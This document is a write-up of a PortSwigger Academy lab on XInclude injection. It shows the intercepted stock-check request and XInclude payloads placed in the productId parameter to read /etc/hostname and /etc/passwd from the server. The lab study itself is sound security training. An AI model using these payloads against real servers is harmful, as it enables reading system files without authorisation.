 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e00f020e-d056-42eb-9590-14b63c467f86)

## Overview :

#### XInclude attacks
 
 Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, y**ou cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element**. However, you might be able to use XInclude.

**XInclude is a part of the XML specification that allows an XML document to be built from sub-documents**. You can place an XInclude attack within any data value in an XML document, so the _attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document_.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
> This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the `xi:include element. Next, it uses that element to parse and
> include the `/etc/hostname` file in the XML document


## Solution :

Clicking on checkstock feature sends the following POST request.

```xml
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

>  Usually if an API accepts JSON data, then most probably it will also accept xml data too. We can change the content type by using `content-type-converter`
> ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bec64300-a7da-474c-942a-ac9b0682141d)

In this lab sending JSON data didn't work.

Here we can't see any XML data being sent to the server but the lab description says that _the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed._

There is no XML data that is visibly sent but if we try to insert `%26entity;`(`%26` is url-encoded form of `&`, else it will consider value after & as another url parameter) , we get an XML error.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa202ba5-7f2c-46a0-a054-227914e89170)


Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the  **XInclude** tag.

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks

**Payload -**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
>The `xmlns:xi` declaration defines the XML namespace xi as "http://www.w3.org/2001/XInclude." This namespace is used to indicate that the `<xi:include>` element is part of the XInclude
>specification.
>
> The `<xi:include>` element specifies the inclusion of an external resource. The `parse="text"` attribute indicates that the included resource should be parsed as plain text. The `href="file:///e
> /passwd"` attribute specifies the location of the file to be included, in this case, `/etc/passwd` on the local filesystem.

So we enter this payload in the `productID` parameter to retreive the `/etc/passwd` file.

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We have now retreived the passwd file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70de11c4-d54e-44bc-862c-28e1d32d2da8)


The lab is solved .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20224687-bca9-4087-b24b-6ca41c85bf84)



